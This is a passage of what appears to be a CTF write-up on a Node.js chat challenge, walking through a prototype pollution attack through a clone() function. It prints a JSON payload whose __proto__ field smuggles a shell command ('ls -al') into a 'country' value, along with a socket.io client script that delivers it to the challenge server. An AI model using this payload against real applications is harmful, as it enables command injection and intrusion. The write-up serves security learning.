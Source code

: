 ```javascript
    }

    var r =/^[a-z0-9]+$/gi;
    if(inp.name === undefined || !r.test(inp.name)) {
        return false;
    }

    return true;
}
```

We can see that `name` which match to `u` need to face to regex checking, and `country` which match to `c` has a black list checking, therefore, we cannot give a value to `country` directly.

So, we need another method which exploit vulnerability of `node.js`, called `prototype pollition attack`.

Step followed by:

1. By giving value to object's `__proto__` attribute, construct payload: `{"name":"xxx", "__proto__":{"country":"xxx';ls -al;echo 'xxx"}}`
1. Attack work after server recieve this object and call `clone()`, when server access object's country attribute, it will accept our injection: `"xxx';ls -al;echo 'xxx"`
1. Server then run `getAscii()` which execute our commend.
1. Modified the payload to get the flag.

![](https://i.imgur.com/8YfbuEZ.png)

```javascript
const io = require('socket.io-client')
const socket = io.connect('https://chat.dctfq18.def.camp')

socket.on('error', function (err) {
  console.log('received socket error:')
  console.log(err)
})

socket.on('message', function(msg) {
  console.log(msg.from,"[", msg.channel!==undefined?msg.channel:'Default',"]", "says:\n", msg.message);
});

socket.emit('register', `{"name":"xxx", "__proto__":{"country":"xxx';ls -al;echo 'xxx"}}`);
socket.emit('message', JSON.stringify({ msg: "hello" }));
socket.emit('join', 'xxx');
```

We can see in this challenge, when server recive the packet, it will call `JSON.parse` first to split user input, then call `clone()`: `newUser = helper.clone(JSON.parse(inUser))`.

The problem occur on `clone()`:
```javascript
function clone(obj) {
    if (typeof obj !== 'object' || obj === null) {
        return obj;
    }

    var newObj;
    var cloneDeep = false;

    if (!Array.isArray(obj)) {
        if (Buffer.isBuffer(obj)) {
            newObj = new Buffer(obj);
        } else if (obj instanceof Date) {
            newObj = new Date(obj.getTime());
        } else if (obj instanceof RegExp) {
            newObj = new RegExp(obj);
```